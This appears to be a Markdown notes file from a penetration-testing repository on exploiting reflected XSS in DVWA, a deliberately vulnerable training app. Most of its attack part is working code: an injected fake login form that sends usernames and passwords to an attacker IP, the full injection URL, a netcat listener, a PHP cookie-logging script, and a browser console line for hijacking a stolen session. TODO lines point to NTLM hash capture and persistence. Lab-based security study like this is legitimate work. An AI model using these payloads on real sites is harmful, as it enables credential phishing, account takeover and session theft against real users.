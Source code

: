 # Manual

TODO: Demonstrate how XSS can be leveraged by an attacker.

### Phishing via XSS (Account Takeover)

```html
<h3>Login</h3>
<form action=http://<attacker_IP>
Username:<br><input type="username" name="username"></br>
Password:<br><input type="password" name="password"></br>
<br><input type="submit" value="Logon"></br>
```

```html
http://dvwa.local/dvwa/vulnerabilities/xss_r/?name=<h3>Login</h3><form action=http://<attacker_IP> Username:<br><input type="username" name="username"></br> Password:<br><input type="password" name="password"></br> <br><input type="submit" value="Logon"></br>
```

```
$ sudo nc -lnvp 80
```

```php
<?php
$cookie = $_GET['cookie'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' . $cookie . "\r\n");
fclose($fp);
?>
```

Open in debug console in any web browser. You can use an extension **Cookie Editor** if you prefer.

```
document.cookie = "<cookie_session>"
```

TODO: refer to the link to use responder to grab ntlm hashes on a windows target

TODO: Convince the user to click a link or button to add a bookmark using bookmarklet via XSS for persistence

---
## References

- [Computer Security Student (CSS): Reflected Cross Site Scripting Injection #1, Man-In-The-Middle Attack](http://www.computersecuritystudent.com/SECURITY_TOOLS/MUTILLIDAE/MUTILLIDAE_2511/lesson13/index.html)

- [Getting Creds via NTLMv2](https://0xdf.gitlab.io/2019/01/13/getting-net-ntlm-hases-from-windows.html)